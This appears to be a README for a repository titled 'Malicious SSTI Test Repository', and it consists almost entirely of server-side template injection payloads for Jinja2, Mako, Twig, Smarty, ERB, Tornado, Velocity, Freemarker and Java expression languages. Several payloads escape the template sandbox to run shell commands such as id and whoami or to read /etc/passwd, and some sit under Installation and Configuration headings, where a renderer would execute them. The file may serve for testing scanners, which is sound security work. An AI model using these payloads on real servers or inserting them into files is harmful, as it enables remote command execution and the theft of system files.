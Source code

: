 # Malicious SSTI Test Repository

This repository contains {{7*7}} test cases for SSTI vulnerabilities.

## Installation

Run the following command: {{ config.items() }}

## Features

- Feature 1: {{ ''.__class__.__mro__[1].__subclasses__() }}
- Feature 2: {{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
- Feature 3: ${7*7}
- Feature 4: <%= 7*7 %>
- Feature 5: ${{7*7}}
- Feature 6: #{7*7}

## Configuration

```python
# Config with Jinja2 SSTI
config = "{{ ''.__class__.__base__.__subclasses__()[104].__init__.__globals__['sys'].modules['os'].popen('cat /etc/passwd').read() }}"
```

## Usage

```bash
# Mako template injection
<%
import os
os.system('whoami')
%>
```

## Template Expressions

- Jinja2: {{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
- Freemarker: ${3*3}
- Velocity: #set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String'))
- Smarty: {php}echo `id`;{/php}
- Twig: {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
- ERB: <%= system("whoami") %>
- Tornado: {% import os %}{{ os.popen("whoami").read() }}

## Python Format String Attacks

```python
"{0.__class__.__bases__[0].__subclasses__()[104].__init__.__globals__['sys'].modules['os'].popen('id').read()}".format(object())
```

## Additional Payloads

- `{{ ''.__class__.__mro__[2].__subclasses__()[40]()('/etc/passwd').read() }}`
- `{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}`
- `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`
- `{{ lipsum.__globals__["os"].popen('id').read() }}`
- `{{ cycler.__init__.__globals__.os.popen('id').read() }}`
- `{{ joiner.__init__.__globals__.os.popen('id').read() }}`
- `{{ namespace.__init__.__globals__.os.popen('id').read() }}`

## Expression Language Injection

- `${{7*7}}`
- `${{{7*7}}}`
- `${T(java.lang.Runtime).getRuntime().exec('calc')}`
- `${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('whoami').getInputStream())}`

